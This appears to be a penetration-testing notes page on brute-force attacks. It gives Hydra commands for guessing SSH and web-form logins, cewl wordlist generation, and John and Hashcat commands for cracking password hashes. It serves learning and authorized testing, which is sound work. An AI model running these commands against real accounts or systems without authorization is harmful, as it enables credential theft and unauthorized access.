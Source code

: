 ```yaml
---
title: Brute Force Attacks
layout: default
nav_order: 5
parent: Exploitation

---
```



# Brute Force Attacks
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}



## **<ins>Bruteforce - SSH (Hydra)</ins>**
Reference - https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/
Bruteforcing SSH login with hydra

### <ins>Single Username and Password</ins>
1. Bruteforce a single username and password
```bash
hydra -l $USER -p $PASSWORD $IP ssh -t $NUM_OF_THREADS
```

### <ins>Username and password list</ins>
1. Optional: Generate password list via `cewl`. We point `cewl` towards a login page of interest. 
```bash
cewl -w cewl_passlist.txt -d 6 $IP/login.php
```
2. Bruteforce with list
```bash
hydra -L user.txt -P cewl_passlist.txt ssh -t $NUM_OF_THREADS
```


## **<ins>Bruteforce - HTTP Page (Hydra)</ins>**
1. Grab the **request body** of the HTTP login page via Chrome DevTools


2. Feed HTTP login into `hydra` with `admin` as the username. We feed `hydra` the `^PASS` variable and `^USER` variable to iterate through usernames and passwords, and the `:F` parameter to a message for incorrect guesses. 

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form '/login:username=^USER^&password=^PASS^:F=Your username or password is wrong.' -V 
```

## **<ins>Cracking Password Hashes - John</ins>**
1. echo hash into a text file
```bash
echo <hash> > hash.txt
```
2. Identify the hash type. 
```bash
hashid $(cat hash.txt)
```
3. Crack password via `john`
```bash
john --format=<FORMAT> --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## **<ins>Cracking Password Hashes - Hashcat</ins>**
Reference - https://infosecwriteups.com/cracking-hashes-with-hashcat-2b21c01c18ec

1. echo hash into a text file
```bash
echo <hash> > hash.txt
```
2. Identify the hash type. 
```bash
hashid -m $(cat hash.txt)
```
3. Crack password via `hashcat`
```bash
hashcat -m <MODE_NUMBER> -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```